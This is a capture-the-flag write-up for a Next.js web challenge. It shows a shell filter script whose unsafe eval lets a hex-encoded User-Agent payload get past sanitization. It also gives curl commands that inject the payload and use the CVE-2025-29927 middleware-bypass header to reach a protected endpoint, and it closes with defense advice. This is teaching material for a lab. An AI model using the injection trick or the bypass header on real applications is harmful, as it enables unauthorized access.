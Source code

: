 # COMMAND INJECTION IN THE LOGS

## AISEC ENSA MARRAKECH CTF 2025
**Challenge Creator**: hmidal3yan | **Difficulty**: Medium | **Category**: Web Exploitation

---

## TARGET OVERVIEW

This Next.js application records user interactions in log files. The critical vulnerability exists in how the system processes the `User-Agent` field in the `contact.log` file - specifically, an unsafe `eval` command that gives us our foothold.

### System Constraints:
- The filter script runs with limited user privileges (`filteruser`)
- Available commands are restricted to those in `/restricted/bin`
- Flag requires activation via the `flag` command before retrieval
- Flag is only accessible for 2 minutes after activation
- Special cookie required to access the flag endpoint

## ATTACK SURFACE

The application exposes several attack vectors:

```
┌─────────────────┐       ┌──────────────┐       ┌───────────────┐
│                 │       │              │       │               │
│  Contact Form   │──────▶│  Log Files   │──────▶│ Filter Script │
│  /api/contact   │       │ contact.log  │       │ (vulnerable)  │
│                 │       │              │       │               │
└─────────────────┘       └──────────────┘       └───────────────┘
                                                         │
                                                         │
                                                         ▼
┌─────────────────┐       ┌──────────────┐       ┌───────────────┐
│                 │       │              │       │               │
│  Flag Endpoint  │◀──────│ Flag Checker │◀──────│ Filtered Logs │
│ /api/i7tiramati │       │              │       │               │
│                 │       └──────────────┘       └───────────────┘
└─────────────────┘
```

### Key API Endpoints:
- **POST /api/contact**: Logs User-Agent to `contact.log` (our injection point)
- **GET /api/logs**: Retrieves processed logs from `logs/filtered`
- **GET /api/i7tiramati**: Returns the flag (requires authentication + activation)

## CRITICAL VULNERABILITY

The filter script processes log entries with a dangerous pattern:

```bash
# Vulnerable code in filter.sh
sanitized=$(echo "$user_agent" | sed 's/[;&|`$()]//g')
decoded=$(printf '%b' "$sanitized")
processed=$(eval "echo \"$decoded\"")
```

This unsafe `eval` is badly sanitized and allows use to use Hexa to bypass the sanitization and execute arbitrary commands when our payload is processed by the filter script.

## EXPLOITATION WALKTHROUGH

### PHASE 1: RECONNAISSANCE
1. Examine the application structure
2. Identify the vulnerable log processing mechanism
3. Understand the flag activation requirements

### PHASE 2: PAYLOAD CRAFTING
We need to:
- Inject a command that executes the `flag` command
- Obtain the special cookie by using `\x24\x28flag\x29` as our User-Agent
- Prepare for accessing the flag endpoint

### PHASE 3: EXPLOITATION
1. Submit a contact form with our crafted User-Agent payload
2. Wait for the filter script to process our payload (runs every 3 minutes)
3. Confirm flag activation (writes "1" to `/tmp/.flag_activated`)
4. Access `/api/i7tiramati` with the acquired cookie

## EXPLOITATION TOOLS

```bash
# Crafting payload with curl
curl -X POST http://target:3000/api/contact \
  -H "Content-Type: application/json" \
  -H "User-Agent: \x24\x28flag\x29" \
  -H "x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware" \
  -d '{"name":"hacker","email":"exploit@test.com","message":222 /to cause ERROR/}'
THAT IS THE PAYLOAD STRUCTURE BUT IT IS BETTER TO USE POSTMAN OR BURPSUITE so you capture the cookie returned to the user.
# Retrieving flag
curl -X GET http://target:3000/api/i7tiramati \
      -H "x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware" \
      -H "Cookie: special_cookie=value_from_response"
```

## REAL-WORLD CONNECTIONS

This challenge draws inspiration from CVE-2025-29927, a Next.js middleware bypass vulnerability where attackers could bypass authentication by adding a specific header:

```
x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware
```

While our challenge focuses on command injection rather than middleware bypass, both exploits demonstrate how HTTP headers can be weaponized to compromise application security.

## DEFENSE STRATEGIES

To prevent this type of vulnerability:
- Never use `eval` with untrusted input
- Implement strict input validation for all user-controllable fields
- Use proper shell escaping when processing log entries
- Run processing scripts with minimal privileges
- Implement proper authentication for sensitive endpoints


**Challenge completed! Add this to your collection of pwned systems.**
